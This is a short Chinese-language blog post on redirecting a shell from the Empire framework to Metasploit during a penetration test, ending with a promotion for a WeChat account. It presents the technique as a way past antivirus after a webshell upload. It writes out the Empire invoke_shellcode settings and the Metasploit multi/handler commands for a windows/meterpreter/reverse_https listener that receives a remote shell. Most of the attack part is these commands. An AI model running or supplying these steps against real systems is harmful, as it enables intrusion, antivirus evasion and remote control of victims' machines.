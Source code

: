 ```yaml
---
layout: post
category: curleyg-code-hack
title: Empire 反弹回 Metasploit
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Empire 反弹回 Metasploit
lock: need
---
```


# Empire 反弹回 Metasploit

在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时，可以使用PowerShell来绕过，也可以执行Empire的Payload来绕过，成功之后再使用Empiore的模块将其反弹回Metasploit。 这里使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

```
set Lhost 192.168.31.247
set Lport 4444
```

![img](https://img-blog.csdnimg.cn/2019010920450179.jpg)

在MSF上设置监听，命令如下：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.31.247
set lport 4444
run
```

运行后，就可以收到Empire反弹回来的Shell

![img](https://img-blog.csdnimg.cn/20190109204848442.jpg)

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
